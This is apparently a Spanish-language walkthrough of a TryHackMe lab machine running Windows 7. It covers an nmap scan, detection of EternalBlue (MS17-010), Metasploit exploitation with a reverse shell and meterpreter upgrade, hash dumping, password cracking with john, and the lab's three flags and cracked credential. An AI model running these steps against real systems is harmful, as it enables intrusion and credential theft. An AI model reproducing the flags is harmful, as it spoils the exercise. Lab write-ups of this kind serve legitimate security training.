 ```yaml
---
title: Untitled
date: 2023-02-15
---
```


## Reconocimiento

Antes de comenzar comprobamos mediante [[ping]] que la máquina se encuentra activa, además en base al ttl ([[OS finguerprinting]]), podemos presuponer que se trata de una máquina **windows**.

Procedemos ahora a buscar puertos abiertos con [[nmap]]:

```bash
nmap -sS -p- --open --min-rate 5000 -n -Pn <ip>
```
```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

Vemos algunos puertos interesantes, así que procedemos con un escaneo más exahustivo:

```bash
nmap -sS -p135,139,445,3389,49152,49153,49154,49158,49159 -sCV -n -Pn <ip>
```
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2023-02-15T19:38:05+00:00; 0s from scanner time.
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m00s, deviation: 3h00m00s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:df:b4:90:66:e7 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-02-15T13:37:50-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-02-15T19:37:50
|_  start_date: 2023-02-15T19:28:53
```

Vemos que tenemos un servicio *samba*, que podría ser interesante. Para tratar de buscar posibles vulns, buscaremos en internet vulns para `Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)`. Encontrando que posiblemente sea vulnerable al [[EternalBlue]] (*MS17-010*). Para comprobarlo, utilizaremos de nuevo nmap:

```bash
nmap -sS -p445 --script vuln -n -Pn <ip>
```
```bash
[...]
Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
[...]
```

O bien:

```bash
nmap -p 445 --script=smb-vuln-ms17-010.nse <ip>
```
```bash
[...]
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
[...]
```

## Explotación

En este punto nos encontramos ante un [[EternalBlue]], así que tenemos dos opciones, expllotarlo mediante [[metasploit]] o manualmente:

#### Metasploit

Comenzamos abriendo la consola de metasploit, y buscamos *ms17-10*:

```bash
msfconsole
```
```bash
search ms17-10
```

Y utilizaremos un exploit llamado `exploit/windows/smb/ms17_010_eternalblue`, así que selecccionamos dicha opción:

```bash
use <option>
```

Con `set` guardamos en `RHOST` la ip de la máquina objetivo y en `LHOST` la de nuestra máquina y ejecutamos `run`. En ocasiones puede ser que no funcione a la primera, en tal caso simplemente repite el proceso.

OPCIONAL - En caso de querer, *tryhackme* nos recomienda que ejecutemos antes del run, `set payload windows/x64/shell/reverse_tcp`, esto es para que luego tengamos que realizar un tratamiento de la tty para migrar una shell normal a una de *meterpreter*.

En este caso simplemente debemos pulsar CTL+Z para poner la sesión en segundo plano y seguidamente, utilizar el exploit `post/multi/manage/shell_to_meterpreter`. Simplemente cambiamos el `LHOST` y `session` con `set`, asignándo nuestra ip y el id de sesión (podemos verlo con `sessions -l`). Si no funciona tocará repetir los pasos anteriores, sin embargo, en caso de éxito tendríamos una shell con mayor funcionalidad y estabilidad. Una vez completado volvemos a la sesion con `sessions <session id>`.

#### Manualmente

to do

## Escalada de privilegios

En caso de tener éxito, ya tendríamos una shell con máximos privilegios, tanto con metasploit como si lo hemos hecho manual (es lo bueno del eternalblue):

```bash
C:\Windows\system32>whoami
whoami
nt authority\system
```

## Obteniendo y crackeando los hashes

#### Con meterpreter (metasploit)

Una vez tenemos la sesión de meterpreter, podemos obtener los hashes con `hashdump`:

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

En este punto podríamos tratar de crackear los hashes con [[john]]:

```bash
john --format=nt -w=/usr/share/wordlists/rockyou.txt hashes.txt
```
```bash
                 (Administrator)     
alqfna22         (Jon)
```

Como vemos obtenemos las credenciales del usuario `Jon:alqfna22`.

En este punto, podemos spawnear una shell de meterpreter con `shell`, y la primera flag se encuentra en `C:\` (`flag{access_the_machine}`), la segunda en `C:\Windows\System32\config` (`flag{sam_database_elevated_access}`), y la tercera en `C:\Users\Jon\Documents` (`flag{admin_documents_can_be_valuable}`).